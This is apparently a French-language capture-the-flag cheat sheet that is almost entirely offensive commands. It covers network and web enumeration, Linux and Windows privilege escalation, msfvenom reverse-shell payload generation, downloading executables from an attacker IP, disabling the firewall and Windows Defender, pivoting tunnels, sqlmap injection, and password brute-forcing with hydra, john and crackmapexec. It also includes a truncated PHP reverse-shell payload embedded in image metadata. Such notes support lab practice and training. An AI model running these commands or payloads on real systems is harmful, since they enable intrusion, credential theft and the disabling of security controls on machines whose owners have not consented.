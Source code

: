 # CTF-Cheat-Sheet


####Reverse shell :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

####Scripts d’énumération automatique pour privesc :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

####Enumération

nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134

####WEB
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
####Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180/
####Bruteforcer les RID des comptes Windows

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
####Bruteforce SMB avec crackmapexec

enum4linux -a 10.10.10.180
####Enumération SMB, RPC & co (WINDOWS)


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


####Exploitation & Elévation de privilèges [LINUX] :
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
####Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
####-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
####-> Liste les répertoires accessibles en écriture

find /* -user root -perm -4000 -print 2>/dev/null
####-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null
####-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
####-> Trouver un fichier précis sur le système

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
####-> Trouver des clés RSA ou des autorisations de connexion SSH

grep -iR "passw"
####-> Rechercher du texte dans des fichiers d’une arborescence

binwalk socute.jpg
####-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


####Exploitation & Elévation de privilèges [WINDOWS] :
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
####Se connecter via le port winrm

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
####Tester les privilèges de l’utilisateur

whoami /priv
whoami /groups
####Liste des privilèges : https://github.com/gtworek/Priv2Admin
####Lister les privilèges de l’utilisateur courant

Get-Services
####Lister les services (Pour vérifier les unquoted services)

Set-ExecutionPolicy Unrestricted
####Retirer les restrictions d’exécution de scripts

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
####Télécharger un fichier depuis un serveur web

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
####Vérifier les exploits disponibles en fonction du systeminfo de la victime

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
####Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
####Activer le RDP et désactiver le firewall

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
####Désactiver Windows Defender en Powershell


####Pivoting :
####Sous Windows :
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
####Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2
####Seul WINDOWS1 peut joindre WINDOWS2

####sur le serveur (kali) :
./chisel server --port 9000 --host 0.0.0.0 --reverse

####sur le client (WINDOWS1 172.16.1.1) :
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
####On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
####Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2

####Sous Linux :
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
####Ici Kali peut joindre LINUX1 mais pas LINUX2
####Seul LINUXS1 peut joindre LINUX2

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
####On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
####Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2


####Injection SQL :
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


####Bruteforce :
####Cracker un hash SHA 512 avec un salage
####Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

####Cracker un zip chiffré avec une liste de mots de passe
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
####tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
####Pour bruteforcer de façon incrémentale

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
####Pour bruteforcer avec un dictionnaire

####Script de bruteforce anti-CSRF :
https://github.com/J3wker/anti-CSRF_Token-Bruteforce
